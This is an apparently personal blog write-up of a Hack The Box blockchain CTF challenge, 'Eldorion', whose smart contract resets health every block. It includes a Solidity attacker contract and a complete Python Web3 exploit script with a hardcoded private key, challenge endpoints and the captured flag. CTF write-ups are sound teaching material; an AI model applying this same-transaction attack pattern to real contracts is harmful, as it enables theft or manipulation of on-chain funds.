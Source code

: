 ```yaml
---
title: hacqueen vs eldorion
date: 2025-03-26
description: A glitter-fueled showdown between Hacqueen and a self-healing smart contract beast. Spoiler: the unicorn doesn’t miss.
tags: ["Blockchain", "Smart Contract", "CTF", "HTB"]
---
```


# 🌈✨ Hacqueen vs Eldorion: Bytes, Bravery & a Battle Unicorn ✨🌈

![Hacqueen vs Eldorion](https://github.com/Hacqueen-fr/hacqueen-fr.github.io/raw/refs/heads/main/assets/hacqueenvsdrakepng)

This HTB challenge was pure drama: a pixel-perfect realm, an overpowered regenerating beast, and one fabulous hacker armed with Web3, glitter, and Python.

> *Welcome to the realms of Eldoria, adventurer. You’ve found yourself trapped in this mysterious digital domain, and the only way to escape is by overcoming the trials laid before you. But your journey has barely begun, and already an overwhelming obstacle stands in your path. Before you can even reach the nearest city, seeking allies and information, you must face Eldorion, a colossal beast with terrifying regenerative powers. This creature, known for its ""eternal resilience"" guards the only passage forward. It's clear: you must defeat Eldorion to continue your quest.*

🎯 **Goal**: Defeat Eldorion — a smart contract boss that heals every time a new block is mined.

Sounds impossible? Not for Hacqueen. Let’s ride. 🦄💻

---

## 🔍 Contract Breakdown

```solidity
modifier eternalResilience() {
    if (block.timestamp > lastAttackTimestamp) {
        health = MAX_HEALTH;
        lastAttackTimestamp = block.timestamp;
    }
    _;
}
```

Eldorion has 300 HP. Each attack can only do 100 damage. And it resets health every new block.  
🧠 So we need **three hits in one transaction**.

---

## 🛠️ The Exploit

### Solidity Contract

```solidity
contract Slayer {
    IEldorion public target;

    constructor(address _target) {
        target = IEldorion(_target);
    }

    function slay() external {
        target.attack(100);
        target.attack(100);
        target.attack(100);
    }
}
```

Wrapped into a Python script using Web3.py + solcx, we deploy this contract and call `slay()`.

### Python Exploit Script

```python
from web3 import Web3
from solcx import compile_source, install_solc, set_solc_version
import socket
import time

RPC_URL = "http://94.237.57.68:53823"
PRIVATE_KEY = "0xd97be7b491c9349d726d8757df1ce9a65cc18f5cd6c9d497eb29284663107a15"
PLAYER_ADDRESS = "0x886180A2D97C803E011e744d6757f7E4b923E0a0"
TARGET_ADDRESS = "0x3BE1F55b1De2B149C77677052975c6C2C58BDe91"
SETUP_ADDRESS = "0x926B826A715B4B7438c88cD7d8d523A70f03Bd63"
INTERFACE_HOST = "94.237.57.68"
INTERFACE_PORT = 40453

SOURCE = """
pragma solidity ^0.8.28;

interface IEldorion {
    function attack(uint256 damage) external;
}

contract Slayer {
    IEldorion public target;

    constructor(address _target) {
        target = IEldorion(_target);
    }

    function slay() external {
        target.attack(100);
        target.attack(100);
        target.attack(100);
    }
}
"""

install_solc("0.8.28")
set_solc_version("0.8.28")
w3 = Web3(Web3.HTTPProvider(RPC_URL))
acct = w3.eth.account.from_key(PRIVATE_KEY)

compiled = compile_source(SOURCE)
interface = compiled.popitem()[1]
SlayerContract = w3.eth.contract(abi=interface['abi'], bytecode=interface['bin'])

deploy_tx = SlayerContract.constructor(TARGET_ADDRESS).build_transaction({
    "from": acct.address,
    "nonce": w3.eth.get_transaction_count(acct.address),
    "gas": 300000,
    "gasPrice": w3.eth.gas_price,
})
signed = acct.sign_transaction(deploy_tx)
tx_hash = w3.eth.send_raw_transaction(signed.raw_transaction)
receipt = w3.eth.wait_for_transaction_receipt(tx_hash)

if receipt.contractAddress is None:
    print("❌ Deployment failed.")
    exit(1)

slayer_address = receipt.contractAddress
slayer_instance = w3.eth.contract(address=slayer_address, abi=interface['abi'])

slay_tx = slayer_instance.functions.slay().build_transaction({
    "from": acct.address,
    "nonce": w3.eth.get_transaction_count(acct.address),
    "gas": 200000,
    "gasPrice": w3.eth.gas_price,
})
signed = acct.sign_transaction(slay_tx)
w3.eth.send_raw_transaction(signed.raw_transaction)
time.sleep(2)

setup_abi = [{
    "inputs": [],
    "name": "isSolved",
    "outputs": [{"internalType": "bool", "name": "", "type": "bool"}],
    "stateMutability": "view",
    "type": "function"
}]
setup = w3.eth.contract(address=SETUP_ADDRESS, abi=setup_abi)
solved = setup.functions.isSolved().call()

if solved:
    print("✅ Challenge Solved!")
    with socket.create_connection((INTERFACE_HOST, INTERFACE_PORT)) as sock:
        sock.recv(4096)
        sock.sendall(b"3\n")
        flag = sock.recv(4096).decode()
        print("[🏁] FLAG:\n" + flag)
else:
    print("❌ Eldorion still stands...")
```

---

## 🧪 Result

Flag in hand, beast on the floor:

```
HTB{w0w_tr1pl3_hit_c0mbo_ggs_y0u_defe4ted_Eld0r10n}
```

---

## 🦄 Final Glitterprint

✨ One block.  
💥 Three hits.  
👑 All slay, no delay.

Because when Hacqueen and her unicorn ride in... bugs get patched and beasts get rekt.

